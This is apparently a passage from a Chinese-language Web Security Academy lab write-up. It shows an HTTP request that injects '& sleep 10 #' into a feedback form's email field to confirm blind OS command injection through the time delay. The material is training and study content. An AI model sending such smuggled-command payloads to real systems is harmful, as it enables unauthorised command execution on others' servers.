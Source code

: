 [![](assets/1708998334-c7195e69cdcdf0dcebe7f08e56e0c386.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142055-ddcb98be-d2dc-1.png)

随后我们使用 sleep 进行延迟操作，可以看到很明显的多了 10s

```bash
POST /feedback/submit HTTP/1.1
Host: 0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net
Connection: close
Content-Length: 114
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0c007603be1a0b853d5ec5009800c1.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=T0sMRd22WQKwiSVx8915GP14pDDvjRuc

csrf=3pIgdreliOv1rBi2nHTKJmEsuwUhKgR0&name=QWQQ&email=longfei%40163.com+%26+sleep+10+%23&subject=test&message=1111
```

[![](assets/1708998334-7022f563433328439ab82c0f50b5e3d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142122-ee46c3ee-d2dc-1.png)